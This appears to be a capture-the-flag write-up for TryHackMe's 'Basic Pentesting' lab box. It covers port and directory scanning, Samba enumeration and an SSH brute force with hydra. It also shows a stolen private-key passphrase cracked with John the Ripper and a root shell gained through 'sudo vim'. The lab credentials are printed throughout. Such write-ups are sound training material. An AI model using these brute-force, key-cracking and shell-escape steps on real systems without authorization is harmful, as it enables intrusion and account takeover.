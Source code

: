 # Basic Pentesting

Basic pentesting is mostly the hello world of pentesting in tryhackme. This is a small write up of this box.

IP: `10.10.55.120`

Starting with basic nmap scanning:
`nmap -sV -sC -oN nmap/initial $IP`

Ports opened:
```
22
80
139
445
8009
8080
```

Directory listing with gobuster:
`gobuster dir -w directory-list-2.3-medium.txt -u http://$IP`

`/development` is basically just a directory that contains two folders: `j.txt` and `dev.txt`.

Content of `j.txt`:
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

Hints from the note:
```
Possible users:
- J
- K

* J has a weak password.
```

We can also see that J's password is weak and easily crackable.

Content of `dev.txt`:
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

Hints from the note:
```
- Some web application might be running on the server (version 2.5.12).
- Samba is configured.
- Apache is set up.
```

Let's move on and try to enumerate samba.

`enum4linux -a $IP`

We found a share called Anonymous and in it, there's a file called staff.txt

Content of staff.txt:
```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

Hints from the note:
```
User J -> Jan
User K -> Kay
```

We know from the dev notes that Jan has a weak password. Since that's in the `/etc/shadow` file, maybe it means the password for `ssh` is weak. We can brute force it with hydra:

`hydra -l jan -P rockyou.txt ssh://10.10.55.120`

SSH credentials
```
username: jan
password: armando
```
Once in the box, we see two users in the home directory, `jan` and `kay`.

After enumerating the box with linpeas found kay's private key inside of `/home/kay/.ssh`. Key is password protected thought.

We can crack the password by using john the ripper.

```
./ssh2john.py key > key.hash
john key.hash
```

SSH-KEY pass: `beeswax`

Now we are able to connect to the box with user kay.

Inside of kay's home directory, we find a `pass.bak` file that contains the following password as a string: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

The box finishes pretty much there, but just for fun, let's see if we can get root.

Using the password we found, we can run `sudo -l` to see which commands kay can run as sudo, and we get the following:

```
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
```

Which basically just means that we can run whatever command we want as sudo as kay as long as we have the password.

By running: `sudo vim` and then `:!sh` inside of vim, we are able to get a shell as root.

Now if we go into the root folder we see that there's a flag.txt file with the following content in it:
```
Congratulations! You've completed this challenge. There are two ways (that I'm aware of) to gain 
a shell, and two ways to privesc. I encourage you to find them all!

If you're in the target audience (newcomers to pentesting), I hope you learned something. A few
takeaways from this challenge should be that every little bit of information you can find can be
valuable, but sometimes you'll need to find several different pieces of information and combine
them to make them useful. Enumeration is key! Also, sometimes it's not as easy as just finding
an obviously outdated, vulnerable service right away with a port scan (unlike the first entry
in this series). Usually you'll have to dig deeper to find things that aren't as obvious, and
therefore might've been overlooked by administrators.

Thanks for taking the time to solve this VM. If you choose to create a writeup, I hope you'll send 
me a link! I can be reached at josiah@vt.edu. If you've got questions or feedback, please reach
out to me.

Happy hacking!
```

Done!